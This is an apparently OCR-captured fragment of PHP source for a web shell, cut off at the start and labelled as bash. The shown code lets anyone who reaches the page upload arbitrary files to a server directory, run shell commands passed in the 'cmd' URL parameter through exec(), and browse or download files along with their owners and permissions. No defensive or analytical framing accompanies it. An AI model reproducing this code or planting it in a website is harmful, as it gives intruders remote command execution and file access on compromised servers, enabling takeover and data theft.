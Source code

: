 ```bash
echo "<input type='file' name='fileToUpload' id='fileToUpload'>\n<br><input type='submit' value='Upload File' name='submit'>";
echo "</div>";

if (isset($_POST['submit'])) {
        $uploadDirectory = $dir.'/'.basename($_FILES['fileToUpload']['name']);
        if (file_exists($uploadDirectory)) {
        echo "<br><br><b style='color:red'>Error. File already exists in ".$uploadDirectory.".</b></br></br>";
        }
        else if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $uploadDirectory)) {
                echo '<br><br><b>File '.$_FILES['fileToUpload']['name'].' uploaded successfully in '.$dir.' !</b><br>';
        } else {
                echo '<br><br><b style="color:red">Error uploading file '.$uploadDirectory.'</b><br><br>';

        }

}

if (isset($_GET['cmd'])) {
        echo "<br><br><b>Result of command execution: </b><br>";
        exec('cd '.$dir.' && '.$_GET['cmd'], $cmdresult);
        foreach ($cmdresult as $key => $value) {
                echo "$value \n<br>";
        }
}
echo "<br>";
?>

<table class="table table-hover table-bordered">
    <thead>
      <tr>
        <th>Name</th>
        <th>Owner</th>
        <th>Permissions</th>
      </tr>
    </thead>
    <tbody>
<?php
foreach ($dirs as $key => $value) {
        echo "<tr>";
        if (is_dir(realpath($dir.'/'.$value))) {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?dir=". realpath($dir.'/'.$value) . "/'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] . "</td><td> " . printPerms($dir) . "</td>\n";
        }
        else {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?download=". realpath($dir.'/'.$value) . "'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] ."</td><td> " . printPerms($dir) . "</td>\n";
        }
        echo "</tr>";
}
echo "</tbody>";
echo "</table>";


?>



```